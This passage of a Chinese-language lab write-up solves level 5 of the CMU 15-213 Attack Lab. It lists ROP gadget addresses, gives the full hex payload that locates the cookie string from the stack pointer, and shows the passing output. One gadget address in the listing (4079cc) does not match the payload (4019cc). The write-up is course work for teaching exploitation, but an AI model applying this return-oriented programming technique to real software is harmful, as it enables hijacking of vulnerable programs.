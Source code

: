 如果将其放置在栈中，我们将不知道cookie的地址。唯一相关的方式是获取rsp的地址值然后计算好偏移量。



构造一下相关的汇编代码
```assembly
movq %rsp %rax
movq %rax %rdi
popq %rax # 取偏移地址
movl %eax %edi
movl %ecx %esi
lea    (%rdi,%rsi,1),%rax
movq %rax, %rdi
```

找一找相关的gadget

```assembly
401aad: movq %rsp %rax # 此时rsp已经弹出一个值
4019a2: movq %rax %rdi
        0x48 # 偏移地址
4079cc: popq %rax # 取偏移地址
4019dd: movl %eax %edx
401a70: movl %edx %ecx 
401a13: movl %ecx %esi
4019d6: lea  (%rdx,%rsi,1),%rax
4019a2: movq %rax, %rdi
        35 39 62 39 39 37 66 61 # Cookie

```

![level5](https://s2.loli.net/2025/08/18/jQvp85anBgSET9R.png)

构造
```shell
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```

***最终***

```shell
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ ./rtarget -q -i <(./hex2raw < rtarget.l5.txt)
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
```
